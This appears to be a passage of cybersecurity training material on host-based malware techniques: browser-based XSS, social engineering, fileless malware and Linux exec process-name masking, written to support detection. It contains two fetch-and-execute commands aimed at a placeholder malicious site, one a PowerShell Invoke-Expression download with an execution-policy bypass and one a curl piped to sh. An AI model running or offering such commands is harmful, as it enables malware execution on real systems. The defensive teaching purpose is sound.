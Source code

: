 ![image](https://github.com/user-attachments/assets/29259ffa-4aff-4901-9843-ad32126bb13b)


--------------

### CDAH-M22L1-Monitoring Malware Techniques on Host ###


Host-Based Malware Execution Techniques
Browser-Based Malware
﻿

Web browsers provide a rich target environment for malware developers, and both desktop and mobile browser platforms are affected. A common browser-based malware technique is the use of JavaScript (JS) as a stored Cross-Site Scripting (XSS) injected element. Upon visiting an infected website, a user is redirected to a site controlled by the attacker. In some cases, this results in the user’s downloading of unintended software, known as a drive-by download, or the attacker’s harvesting user credentials from a fake login form.

﻿

Social engineering, in general, is a means by which an attacker attempts to gain the trust of a target. Attackers who use social engineering to target web- or browser-based environments produce information such as websites or emails to coerce a user into selecting a malicious link or downloading an attachment containing malware.

﻿

Fileless Malware
﻿

Many people assume that malware requires an executable file located physically on the computer. This is a false assumption. If an attacker can gain remote access to a machine (such as through stolen credentials or a browser exploit), they can use file system utilities to download and execute follow-on malicious software without those files ever touching the disk. For example, the following PowerShell command downloads the malware.ps1 script and executes it using the Invoke-Expression command within the current PowerShell memory space:

Powershell.exe -ExecutionPolicy Bypass -NoProfile -NoExit -Command Invoke-Expression ((New-Object Net.WebClient).DownloadString('https://<Malicious Site>/malware.ps1'))
﻿

An attacker targeting a Linux platform can use a combination of Curl (or Wget) and the command pipe to achieve the same effect:

curl -k https://<Malicious Site>/malware | sh
﻿

Due to the repeated use of specific switches and options, using system commands to execute fileless malware results in Indicators of Compromise (IOC) for which a signature can easily be written. 

﻿

Linux exec Process Replacement
﻿

A Linux process list displays the processes currently running on the system. Normally, the name displayed is the same as the executable name. An attacker can take advantage of the -a switch of the exec command to mask their malware process name. The following example illustrates this concept.
